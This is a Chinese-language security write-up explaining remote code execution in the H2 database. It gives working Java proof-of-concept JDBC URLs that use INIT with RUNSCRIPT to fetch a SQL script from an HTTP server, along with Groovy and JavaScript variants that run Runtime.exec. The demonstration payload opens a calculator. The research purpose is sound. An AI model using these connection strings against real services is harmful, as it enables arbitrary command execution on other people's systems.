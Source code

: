 # H2-RCE

<center>@Y4tacker</center>

首先在SpirngBoot当中如果开启了也可以通过网页直接实现rce，当然需要开启参数

```xml
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

![](img/1.png)

接下来分别介绍三种

## 通过加载执行远程sql

在org.h2.engine.Engine#openSession(org.h2.engine.ConnectionInfo)中,h2引擎将 "INIT "参数分割开来，并使用CommandInterface的不同实现类来初始化数据库连接，这取决于配置。

![](img/2.png)

通过使用RUNSCRIPT命令，h2最终会调用org.h2.command.dml.RunScriptCommand#execute来执行恶意的sql语句。

![](img/3.png)

```java
Class.forName("org.h2.Driver");
String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";
Connection connection = DriverManager.getConnection(connectionUrl);
connection.close();
```

Poc.sql

```java
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "y4tacker";}';CALL EXEC ('open -a Calculator.app')
```

那么为什么我们使用 "RUNSCRIPT "命令？因为我们使用的POC需要执行两条SQL语句，第一条是CREATE ALIAS，第二条是EXEC，这是一个两步的动作。然而session.prepareCommand不支持多条SQL语句的执行，所以我们使用RUNSCRIPT来从远程服务器加载SQL。

![](img/4.png)

## 配合Groovy

在org.h2.util.SourceCompiler#getClass中，h2使用isGroovySource来确定它是否是groovy源代码![](img/5.png)



```java
private static boolean isGroovySource(String var0) {
  return var0.startsWith("//groovy") || var0.startsWith("@groovy");
}
```
利用
```java
Class.forName("org.h2.Driver");
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
```

但是也不是每个项目都有Groovy，这时候可以使用js执行命令


```
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```

但是也是似乎有版本限制，我测试这是最低的限制

```
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.197</version>
</dependency>
```



## 关于报错

关于H2 数据库报错 Database "XXX" not found, and IFEXISTS=true, so we cant auto-create it [90146] 的解决办法

可以在[spring boot - Database not found, and IFEXISTS=true, so we cant auto-create it - Stack Overflow](https://stackoverflow.com/questions/55349373/database-not-found-and-ifexists-true-so-we-cant-auto-create-it)找到答案

Use a pre-2019 version of the `H2` database dependency that auto-creates the database every time you run your standalone application. For example version `1.4.193`. Your `pom.xml` should include this dependency:

```
<dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <version>1.4.193</version>
</dependency>
```

